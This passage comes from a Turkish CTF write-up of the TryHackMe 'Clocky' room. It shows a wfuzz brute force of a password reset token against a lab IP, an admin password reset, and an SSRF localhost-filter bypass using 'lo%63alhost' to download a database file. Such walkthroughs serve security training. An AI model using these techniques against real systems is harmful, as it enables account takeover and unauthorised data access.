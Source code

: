 Wfuzz ile brute force başlatıyorum.

````console
┌──(root㉿kali)-[~/Downloads]
└─# wfuzz -u 'http://10.10.169.91:8080/password_reset?token=FUZZ' -w hashes.txt --hw 2
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://10.10.169.91:8080/password_reset?token=FUZZ
Total requests: 19000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                                                 
=====================================================================

000008994:   200        53 L     108 W      1627 Ch     "d9999e1971a37b3865bf3a8e40c19dff259fa297" 
````

Token'ı bulduk. Artık şifreyi değiştirebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/16.png?raw=true)

/administrator'a giderek değiştirdiğimiz şifreyle giriş yapıyoruz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/17.png?raw=true)


## Flag 4

Test için bir değer girdim. boş bir file dosyası indirdi.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/18.png?raw=true)

localhost'a gitmemize ise izin verilmiyor.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/19.png?raw=true)

`lo%63alhost` ile bu sorunu çözebiliriz.

app.py içerisinde database.sql dosyası görmüştüm.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/20.png?raw=true)

`http:.//lo%63alhost/database.sql` yazarak dosyayı indiriyorum.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/Clocky/images/21.png?raw=true)

ve 4. flag'i bu şeiklde alıyoruz.

## Flag 5
